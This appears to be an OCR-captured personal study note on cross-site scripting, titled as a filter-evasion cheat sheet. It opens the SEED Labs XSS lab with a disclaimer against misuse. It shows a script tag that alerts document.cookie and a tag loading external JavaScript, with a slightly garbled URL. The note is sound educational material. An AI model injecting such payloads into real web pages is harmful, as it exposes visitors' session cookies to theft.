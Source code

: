 ```yaml
---
title: Cross Site Scripting Filter Evasion Cheat Sheet
# author: Grace JyL
date: 2020-09-19 11:11:11 -0400
description:
excerpt_separator:
categories: [CyberAttack, XSS]
tags: [CyberAttack, XSS, CheatSheet]
math: true
# pin: true
toc: true
# image: /assets/img/sample/devices-mockup.png
---
```


# Cross Site Scripting Filter Evasion Cheat Sheet

[toc]


```
    __∧_∧__    ~~~~~
　／(*´O｀)／＼
／|￣∪∪￣|＼／
　|＿＿ ＿|／

por favor, no lo usar para hacer algo malo!
just learning note, please don't use it to do something wrong
kali用得好，监狱进得早，与君共勉!

```

---

# SEED Labs – Cross-Site Scripting Attack Lab

## Posting a Malicious Message to Display an Alert Window

```js
// short code
<script>alert(document.cookie);</script>


// long code
<script type="text/javascript"
        src="http网站//www.example.com/myscripts.js">
</script>
// store the JavaScript program in a standalone file
// save it with the .js extension
// refer to it using the src attribute in the <script> tag.
```
